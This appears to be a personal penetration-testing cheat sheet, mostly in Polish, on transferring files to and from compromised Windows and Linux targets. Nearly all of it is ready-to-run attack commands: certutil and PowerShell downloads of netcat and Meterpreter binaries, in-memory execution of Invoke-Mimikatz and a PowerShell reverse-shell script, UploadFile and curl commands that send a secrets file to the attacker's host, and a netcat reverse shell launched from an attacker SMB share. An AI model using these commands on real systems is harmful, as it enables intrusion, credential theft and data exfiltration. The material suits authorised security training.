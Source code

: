 

# Metasploit payload deploy 
![[Metasploit#Payload deploy]]

# (Almost) All The Ways to File Transfer
https://juggernaut-sec.com/linux-file-transfers-for-hackers/
https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65
## GTFOBins / LOLBAS
Binarki Windows: https://lolbas-project.github.io/#/download
Binarki Linux: https://gtfobins.github.io/#+file%20download

# Transfering files to Targets
## terminal
```bash
# kompresja plików exe, -9 compress better
upx -9 nc.exe
exe2hex -x nc.exe -p nc.PS # -x <EXE_FILE> -p <OUT_AS_PS> / -b <OUT_AS_BAT>
less nc.PS # plix exe jako polecenie PS
cat nc.PS | tmux loadb - # załadowanie kemndy do bufora tmux
# można wkleić poprzez terminal, na maszynie powinien pojawić się plik nc.exe  

```
## FTP
```bash
auxiliary/server/ftp
set FTPROOT # folder na ktory,m ma działać server ftp

# ręcznie
cmd> ftp 192.168.100.100 # wchodzenie na server ftp
ftp>User: anonymous
ftp>(password: )
ftp> binary
ftp> get filename

# skrypt  w windows do automatyzacji ftp
cmd> ftp -s:ftp_commands.txt
# plik z poleceniami ftp_commands.txt
open 10.9.122.8
anonymous
whatever
binary
get met8888.exe
bye
```
## TFTP
```bash
auxiliary/server/tftp
set TFTPROOT # folder na ktory,m ma działać server ftp

# ręcznie
cmd> ftp 192.168.100.100 # wchodzenie na server ftp
ftp>User: anonymous
ftp>(password: )
ftp> binary
ftp> get filename
```
```PS
# enable tftp in Windows in command line
cmd> pkgmgr /iu:"TFTP"
tftp -i 192.168.10.10 GET/PUT password.txt
```
## HTTP
pobierz plik znajdujący się pod adresem http://10.10.10.10:1234/file.exe i nazwij go payload.exe 
```PowerShell
 # narzędzia do pobierania plików (jak curl)
 # pobierz plik na dysk
cmd> certutil -urlcache -f http://10.10.10.10:1234/file.exe payload.exe # cmd.exe

PS> IWR -Uri http://172.16.1.30/nc.exe -OutFile C:\temp\nc.exe # Powershell

PS> (new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe') # Powershell

curl.exe 172.16.1.30/wget.exe -o C:\temp\wget.exe


# POBIERZ I WYKONAJ W PAMIĘCI
# IEX is only useful for downloading and executing PS1 scripts and BATCH (.BAT) files into memory. This will NOT download and execute an EXE file into memory.
PS> IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-Mimikatz.ps1') # Powershell

cmd> powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-PowerShellTcp.ps1')"

```
Upload plików do atakującego
```Powershell
# wymaga włączonego serwera http z mozliwością uploadu
PS> (New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/', 'C:\temp\supersecret.txt')
# mając wgrany na serwer apache (/var/www/html) plik upload.php pozwaljący na upload plików
PS> (New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/upload.php', 'C:\temp\supersecret.txt')
cmd>powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/upload.php', 'C:\temp\supersecret.txt')"
cmd> curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30
cmd> curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30/upload.php

```

```bash
wget http://192.196.45.2/php-backdoor.php
curl ...
```
![[(reverse) shell#scp]]
### Python Web Server

```python
python -m SimpleHTTPServer 80 # python 2.x
python -m http.server 80 # python 3.x
```

## SMB
Pobierz pliki z serwera SMB
```powershell
cmd> copy \\172.16.1.30\hax\nc.exe C:\temp\nc.exe
```
Upload plików na serwer SMB
```powershell
cmd> copy C:\temp\supersecret.txt \\172.16.1.30\hax\supersecret.txt
```
Since Windows handles UNC paths, you can just treat the `hax` share as if it’s just a local folder from Windows. Basic Windows file commands like `dir`, `copy`, `move`, etc all just work
```powershell
cmd> net viev \\10.10.10.1 # chec share
cmd> dir \\10.10.10.1\hax # list content
```
### Python SMB Server
![[impacket#smbserver]]
```powershell
# kali attacker
$ impacket-smbserver smbfolder $(pwd) -smb2support -user vk9guest -password vk9pass

# W windows victim
PS> $pass = ConvertTo-SecureString ‘vk9pass’ -AsPlainText -Force
PS> $pass
PS> $cred = New-Object System.Management.Automation.PSCredential(‘vk9guest’, $pass)
PS> $cred
# tworzy nowy dysk wirtualny (PSDrive) o nazwie "vk9smb3"
PS> New-PSDrive -Name vk9smb -PSProvider FileSystem -Credential $cred -Root \\10.10.14.13\smbfolder
# -Root \\10.10.14.13\smbfolder określa lokalizację, która będzie punktem początkowym dla tego nowego dysku wirtualnego
PS> cd vk9smb:
PS> dir
PS> .\winPEASx64.exe # execute program
# If you need to mount multiple times use only a different name
PS> New-PSDrive -Name vk9smb2 -PSProvider FileSystem -Credential $cred -Root \\10.10.14.13\smbfolder
PS> New-PSDrive -Name vk9smb3 -PSProvider FileSystem -Credential $cred -Root \\10.10.14.13\smbfolder
```

### Executing Files Directly from Attacker’s SMB Server (NO TRANSFER NEEDED)
```powershell
\\172.16.1.30\hax\nc.exe 172.16.1.30 443 -e cmd.exe
```
## evil-winrm
![[mindmapa/tools/evil-WinRM/evil-WinRM#File transfer]]
# EXECUTING Files and Scripts in WINDOWS DIRECTLY from Attacker
## evil-winrm
![[mindmapa/tools/evil-WinRM/evil-WinRM#Executing Files and Scripts Directly from Attacker (NO TRANSFER NEEDED)]]
## PowerShell z SMB share
Uruchom zdalnie exe z SMB share 
https://community.spiceworks.com/topic/1999030-remotely-executing-an-application-from-smb-share

```powershell 
PS C:\Users\user> Invoke-Command -ComputerName target-computer -ScriptBlock{ 
$CurrentLocation = "\\server\share"
$exe = "application.exe "
$Arguments = "/S", "/qn" # change as needed
Start-Process -FilePath "$CurrentLocation\$exe" -ArgumentList $Arguments
}
```

```query
spawning TTY Shells 
```